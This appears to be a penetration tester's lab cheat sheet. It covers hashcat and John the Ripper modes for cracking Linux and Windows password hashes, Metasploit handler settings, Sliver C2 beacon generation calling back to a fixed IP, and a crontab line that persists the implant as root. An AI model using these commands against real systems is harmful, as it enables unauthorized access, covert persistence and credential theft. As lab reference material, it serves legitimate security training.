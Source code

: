 
## Password Cracking

Linux Hashing

| ID     | Method   | Hashcat (`-m {#}`) | John the Ripper (`--format={name}`) |
| ------ | -------- | ------------------ | ----------------------------------- |
| `$1$`  | MD5      | 500                | md5crypt                            |
| `$2*$` | Blowfish | 3200               | bcrypt                              |
| `$5$`  | SHA-256  | 7400               | sha256crypt                         |
| `$6$`  | SHA-512  | 1800               | sha512crypt                         |
| `$y$`  | yescript | N/a                | crypt                               |

Windows Hashing

Method | Hashcat (`-m {#}`) | John the Ripper (`--format={name}`)
--- | --- | --- 
LM | 3000 | LM
NT | 1000 | NT
NetNTMLv1 | 5500 | netntlm
NetNTLMv2 | 5600 | netntlmv2
Kerberos 5 AS-REQ | 18200 | krb5asrep
Kerberos RC4 | 13100 | krb5tgs

## MSF

[[Msfvenom-Some-Good-Shells|Msfvenom-Some-Good-Shells]]

```bash
msfconsole -q -x 'use multi/handler'
```

```ruby
use multi/handler
set AutoRunScript post/windows/manage/migrate true
ExitOnSession false
# Manually migrate to privilege process if you have SeDebugPrivileges 
```

## Beacons and Shells 

Linux
```bash
generate beacon --mtls 10.50.104.57:8445 --arch amd64 --os linux --save /home/kali/Holo-2024/sliver.bin
# sliver listener
mtls -L 10.50.104.57 -l 8445 

CT="1 * * * *  root /root/sliver.nvm"
echo "$CT" | tee -a /etc/crontab
```
